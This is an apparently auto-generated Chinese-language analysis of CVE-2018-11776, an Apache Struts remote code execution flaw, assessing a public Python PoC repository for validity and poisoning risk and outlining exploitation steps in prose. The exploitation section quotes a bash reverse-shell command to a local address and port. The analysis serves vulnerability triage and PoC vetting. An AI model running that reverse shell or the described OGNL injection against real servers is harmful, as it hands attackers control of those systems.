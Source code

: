 ## CVE-2018-11776 Apache Struts 远程代码执行

**漏洞编号:** CVE-2018-11776

**漏洞类型:** 远程代码执行

**影响应用:** Apache Struts

**危害等级:** 高危，允许未经身份验证的远程代码执行

**影响版本:** 2.3 to 2.3.34, 2.5 to 2.5.16

**利用条件:** alwaysSelectFullNamespace 设置为 true，且存在特定的命名空间配置

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2018-11776 是一个存在于 Apache Struts 2 中的远程代码执行漏洞。该漏洞的产生是由于 Struts 对命名空间处理不当，允许攻击者通过构造恶意的 URL 发起 OGNL 表达式注入，从而执行任意代码。

**有效性：**
根据提供的漏洞库信息、搜索引擎结果和漏洞利用代码，可以确认此漏洞是有效的。漏洞库信息将其描述为“possible Remote Code Execution”，搜索引擎结果中包含了大量的关于此漏洞的分析和利用的文章，漏洞利用代码提供了一个可行的 PoC。

**投毒风险：**
分析 PoC 代码内容：
* `Dockerfile`: 用于构建存在漏洞的 Struts2 环境，模拟漏洞存在场景,没有恶意代码。
* `README.md`: 提供了漏洞利用的详细步骤，包括环境搭建、配置修改、漏洞验证和命令执行/反弹 shell。其中涉及到命令执行和反弹shell的脚本，需要用户手动执行，但代码本身没有明显的恶意行为。
虽然提供的利用代码没有直接的恶意行为，但是仍然存在一定的投毒风险。例如，攻击者可以修改 exploit 脚本，在执行命令之前添加一些恶意的操作，例如植入后门程序或窃取敏感信息。由于用户需要手动执行这些脚本，因此存在一定的风险。考虑到 Dockerfile 和 exploit 脚本的透明性，以及需要用户手动修改配置和执行脚本，投毒的可能性较低，初步估计为 5%。

**利用方式：**
该漏洞的利用方式主要包括以下步骤：

1.  **环境准备：** 搭建存在漏洞的 Apache Struts 2 环境。可以使用提供的 Dockerfile 构建。
2.  **配置修改：** 修改 Struts 2 的配置文件 `struts.xml`，将 `struts.mapper.alwaysSelectFullNamespace` 设置为 `true`，并添加特定的 action 配置。
3.  **漏洞验证：** 使用提供的测试脚本验证目标是否易受攻击。该脚本会发送一个包含 OGNL 表达式的 URL，如果服务器返回预期的结果，则表明目标存在漏洞。
4.  **命令执行/反弹Shell：** 使用提供的命令执行脚本，构造包含 OGNL 表达式的 URL，执行任意命令。也可以通过反弹 shell 获取服务器的控制权。可以使用`/bin/bash -i >& /dev/tcp/172.17.0.1/31337 0>&1` 来执行反弹shell

**项目地址:** [hook-s3c/CVE-2018-11776-Python-PoC](https://github.com/hook-s3c/CVE-2018-11776-Python-PoC)

**漏洞详情:** [CVE-2018-11776](https://nvd.nist.gov/vuln/detail/CVE-2018-11776)